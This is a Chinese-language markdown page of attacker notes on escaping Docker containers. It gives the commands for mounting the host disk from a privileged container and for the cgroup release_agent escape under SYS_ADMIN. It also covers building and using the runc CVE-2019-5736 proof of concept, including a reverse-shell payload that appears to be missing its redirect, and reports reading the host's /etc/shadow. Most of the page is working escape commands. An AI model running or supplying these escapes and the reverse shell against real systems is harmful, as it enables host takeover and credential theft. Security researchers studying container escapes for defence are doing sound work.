

# Docker 逃逸

## 判断是否在docker中

1. 是否存在 /.dockerenv  


2. 检查/proc/1/cgroup内是否包含"docker"等字符串  


## --privileged 利用

```shell
sudo docker run -it --name test --privileged -d ubuntu:16.04 /bin/bash
sudo docker exec -it test bash
mkdir /aa
mount /dev/sda1 /aa
ls /aa
```
aa 就是 宿主机的 根目录了  

  


## --cap-add=SYS_ADMIN 利用

将执行的命令写入到文件
```shell
# On the host
sudo docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu:16.04 bash
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "ls > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```


## runc逃逸 条件就是可以自己在开一个终端 可以上传文件上去

1. 可以将文件上传到docker容器内
2. 需要再次exec 这个容器

首先创建一个 运行的容器  
`docker run -it --name taoyi -d centos:7 /bin/bash`  

然后编译poc

poc `https://github.com/Frichetten/CVE-2019-5736-PoC/blob/master/main.go`  

可以修改成反弹shell `var payload = "#!/bin/bash \n bash -i /dev/tcp/127.0.0.1/1234 0>&1"`  

在PowerShell下 (cmd的话是 set GOOS="linux")  
 
```shell
$env:GOOS="linux"
$env:GOARCH="amd64"
go build .\main.go
```

生成linux下可执行文件 main 上传到 宿主机上 在使用docker cp到容器中 `docker cp main 容器名:/存放路径`  
这里为了演示直接cp进去 并赋予可执行权限  
在容器内运行 main 后再新开个shell 再次 docker exec 容器 则可触发  


容器中执行main  

  

新开个shellexec后  


可以成功获取到 /etc/shadow 文件内容  
 
在这个版本下没有成功执行
```
Server: Docker Engine - Community
 Engine:
  Version:          19.03.4
  API version:      1.40 (minimum version 1.12)
  Go version:       go1.12.10

```

在Docker 18.09.2之前的版本中使用了的runc版本小于1.0-rc6，因此允许攻击者重写宿主机上的runc 二进制文件  

